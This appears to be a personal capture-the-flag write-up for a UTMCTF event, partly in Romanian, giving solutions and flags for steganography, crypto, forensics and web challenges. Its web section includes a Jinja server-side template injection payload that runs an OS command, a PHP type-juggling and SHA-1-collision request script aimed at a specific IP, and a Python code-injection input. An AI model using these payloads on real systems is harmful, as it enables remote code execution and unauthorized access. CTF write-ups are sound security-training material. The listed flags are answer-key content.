 # Steganography
## Plain Sight
```bash
strings ~/Downloads/image.jpg|grep "UTMCTF*"
```
![[Pasted image 20231201212211.png]]
Flag is -> `UTMCTF{steganography_is_hiding_messages_in_plain_sight}`
## M0r
Use -> https://morsecode.world/international/decoder/audio-decoder-adaptive.html
![[Pasted image 20231201212418.png]]
Flag is -> `ctf{MORSE_CODE_IS_COOL}`
## Complicated
Use -> https://github.com/Giotino/stegsolve/releases
```bash
java -jar stegsolve.jar
```
![[Pasted image 20231201212642.png]]![[Pasted image 20231201212712.png]]
Flag is -> `ctf{pictures_can_actually_be_really_complicated}`
## Different
```bash
zsteg image-2.png
```
![[Pasted image 20231201212939.png]]
Flag is -> `ctf{there_are_1001_different_ways_to_hide_flags}`

# Reverse Engineering
## Demosquito
![[Pasted image 20231201213333.png]]
Flag is -> `UTMCTF{d3bugg1ng_again}`

## Cryptography
![[Pasted image 20231201213454.png]]
Acesta este un `Ascii85` sau `Base85`
Decoder ->https://cryptii.com/pipes/ascii85-encoding
![[Pasted image 20231201213623.png]]
```rezult
35 34 20 34 38 20 33 32 20 35 34 20 34 39 20 33 32 20 35 34 20 34 38 20 33 32 20 35 34 20 34 39 20 33 32 20 35 34 20 34 38 20 33 32 20 35 34 20 34 39 20 33 32 20 35 34 20 34 38 20 33 32 20 35 34 20 34 39 20 33 32 20 35 32 20 34 38 20 33 32 20 35 34 20 34 38 20 33 32 20 35 34 20 34 39 20 33 32 20 35 34 20 34 38 20 33 32 20 35 34 20 34 39 20 33 32 20 35 34 20 34 38 20 33 32 20 35 34 20 34 39 20 33 32 20 35 34 20 34 38 20 33 32 20 35 34 20 34 38 20 33 32 20 35 32 20 34 38 20 33 32 20 35 34 20 34 38 20 33 32 20 35 34 20 34 39 20 33 32 20 35 34 20 34 38 20 33 32 20 35 34 20 34 38 20 33 32 20 35 34 20 34 39 20 33 32 20 35 34 20 34 39 20 33 32 20 35 34 20 34 
```
Next use -> https://cyberchef.org/
![[Pasted image 20231201214029.png]]
Flag is -> `UTMCTF{h4-h4_cl4551c_c7f_c0nv3r510n_745k_898318f01fc3472108c408394fab2773}`

## What Could Those Be
![[Pasted image 20231201214413.png]]
21;20;13;3;20;6;{;12;5;20;20;5;18;19;;1;18;5;;6;21;14;}
Flag is ->`UTMCTF{LETTERS_ARE_FUN}`

## Baby RSA
![[Pasted image 20231201214519.png]]
Flag is -> `UTMCTF{r54_15_c00l_d4w6}`

# Forensics
## Banger Sound
![[Pasted image 20231201214717.png]]
Flag is -> `UTMCTF{b33p_b00p_c00l_5p3c7r06r4m}`

## Hidden Note
```bash
exiftool ~/Downloads/flag.jpg
```
![[Pasted image 20231201215011.png]]
Flag is -> `UTMCTF{m374fl46_1n_m374d474}`

# Miscellaneous

## Discord
![[Pasted image 20231201215221.png]]
![[Pasted image 20231201215250.png]]
Flag is ->`UTMCTF{1f_y0u_n33d_h31p_y0u_c0m3_h323}`

## OC
![[Pasted image 20231201215612.png]]
Flag is -> `UTMCTF{ocaml_easy}`

# Web
## Winter Rave Organizers
![[Pasted image 20231201215729.png]]
![[Pasted image 20231201215756.png]]
Flag is -> `UTMCTF{1_d0n7_0r64n1z3_r4v35}`

## Spooky Scary Halloween in December
[[Server Side Template Injection]]
```python
{{ cycler.__init__.__globals__.os.popen('cat flag.txt').read() }}
```
![[Pasted image 20231201223339.png]]
Flag is -> `UTMCTF{5p00ky_5c4ry_71m3l355_1nv3n710n5}`

## PHP Shenanigans
hen our supplied input is : **d33**d33p**p  
$php main.php**  
Final String is : **d33p**

```python
import requests
import urllib.request as urllib2
hash1 = urllib2.urlopen("http://shattered.io/static/shattered-1.pdf").read()[:500];
hash2 = urllib2.urlopen("http://shattered.io/static/shattered-2.pdf").read()[:500];
r = requests.get('http://35.206.162.61:12004/', params={'ready':1,'password':'0e001233333333333334557778889','magic':'13371337_password_password','red_potion':hash1,'blue_potion':hash2});
print (r.text)

#params={'name': rotimi, 'password': letmein} Parametri din exemplu
#Parametri care trebuie
#http://35.206.162.61:12004/?ready=1&password=0e001233333333333334557778889&magic=13371337_password_password&red_potion=1&blue_potion=2
```
![[Pasted image 20231202165940.png]]
## Broken Calculator
```python
open('flag.txt').read()
```
![[Pasted image 20231202173721.png]]

## Page
![[Pasted image 20231202175616.png]]Flag is-> `UTMCTF{welcome_to_the_party}`

